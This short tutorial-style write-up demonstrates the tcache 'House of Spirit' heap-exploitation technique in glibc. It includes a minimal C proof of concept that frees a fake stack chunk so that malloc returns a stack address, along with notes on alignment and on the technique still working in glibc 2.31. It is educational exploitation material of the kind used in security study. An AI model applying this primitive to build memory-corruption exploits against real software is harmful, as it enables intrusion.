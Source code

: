 # Tcache's House of Spirit
> LongChampion, 21/03/2020

Lets demostrate the House of Spirit attack with tcache.
```c
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake;
    Fake.size = 0x40;
    free(&Fake.fd);
    void *STACK = malloc(0x40 - 8);
}
```
Eventhough tcache entry doesn't contain `pre_size`, `size` or `bk` field, I recognize that tcache entry still consider as normal chunk in some circumstances. So that out `Fake` chunk must have all of there field (and there field will be used!). We set `size` of `Fake` to a value that fall into tcache_bin size then free `Fake` by passing address of `Fake.fd` to `free`. The following `malloc` will return `Fake.fd` as we expect.

## Note
Our `Fake` chunk must be aligned by 0x10 (or 0x08 in x86 system) in memory, or the attack will fail. We also don't need to create another fake chunk after the main `Fake` as we do in House of Spirit with fastbin. The last and the most interesting is that this attack still work with **GLIBC** 2.31 (and maybe newer version). AWESOME!
